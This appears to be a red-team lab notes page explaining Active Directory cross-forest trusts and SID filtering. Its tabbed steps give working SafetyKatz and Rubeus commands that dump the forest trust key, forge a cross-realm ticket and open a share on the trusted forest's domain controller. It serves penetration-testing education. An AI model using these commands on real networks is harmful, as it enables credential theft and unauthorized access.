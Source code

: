 # Cross-Forest

In a cross-forest AD environment, **the mechanics of trust relationships mirror those of** [**cross-domain trusts**](cross-domain.md). However, while cross-domain trust relationships are implicit within a forest, **cross-forest trusts must be explicitly configured by administrators**. This deliberate configuration allows two separate forest roots to authenticate users and resources across organizational boundaries.

**Trust tickets operate in the same way in forest trusts as they do between domains**. If DA or EA access is obtained on one forest root, it becomes possible to impersonate similarly privileged users in the trusted forest, assuming the trust relationship permits it and the conditions are met.

A **critical difference** lies in the trust key management. Unlike domain trust keys, which rotate automatically (typically every 30 days), **the key used in a forest trust remains static unless manually changed**. This makes it an attractive target for long-term persistence, especially when combined with ticket forging techniques.

To defend against privilege escalation across forest boundaries, AD implements **SID filtering**. This mechanism **strips certain well-known SIDs from tickets issued across a forest trust**. Specifically, SIDs in the range typically associated with built-in privileged groups (e.g., DAs starting at RID 500 and DCs at 1000) are filtered out. As a result, attempts to embed these SIDs into a forged ticket from a foreign forest will be blocked by default.

<figure><img src="../../../.gitbook/assets/cross-forest-trusts.png" alt=""><figcaption></figcaption></figure>

However, **this filtering can be bypassed if misconfigurations exist**—especially when high-privileged groups are custom-created and assigned SIDs outside the filtered range. This scenario often arises in environments where administrators create new groups with elevated permissions but do not consider how SID filtering might interact with these roles. If a forest trust exists, there is usually a reason for it, and that reason often introduces risk if not properly managed.

{% tabs %}
{% tab title="1. Trust Key " %}
To exploit such a trust, the first step is extracting the forest trust key (rc4):

```powershell
SafetyKatz.exe "lsadump::trust /patch"
SafetyKatz.exe "lsadump::lsa /patch"
SafetyKatz.exe "lsadump::dcsync /user:dcorp\ecorp$" "exit"
```
{% endtab %}

{% tab title="2. TGT" %}
Once the trust key is obtained, it can be used to forge a cross-realm TGT (`krbtgt/domain`):

{% code overflow="wrap" %}
```powershell
Rubeus.exe silver /service:krbtgt/dollarcorp.moneycorp.local /rc4:<trust-key> /sid:<current-domain-SID> /ldap /user:Administrator /nowrap
```
{% endcode %}
{% endtab %}

{% tab title="3. TGS" %}
With the TGT in hand, a TGS request can be issued for a service in the trusted forest (e.g. HTTP, CIFS, etc.) on the target host:

{% code overflow="wrap" %}
```powershell
# TGS request using the forged TGT
Rubeus.exe asktgs /service:cifs/eurocorp-dc.eurocorp.local /dc:eurocorp-dc.eurocorp.local /ptt /ticket:doI...2Fs

# Access the target resource
dir \\eurocorp-dc.eurocorp.local\<explicitly-shared-share>\
```
{% endcode %}
{% endtab %}
{% endtabs %}

While **enumeration of external forests via service tickets is noisy and easily detected**, it remains the **only practical method for mapping trust paths** in a red team engagement without direct access to forest-wide enumeration tools.

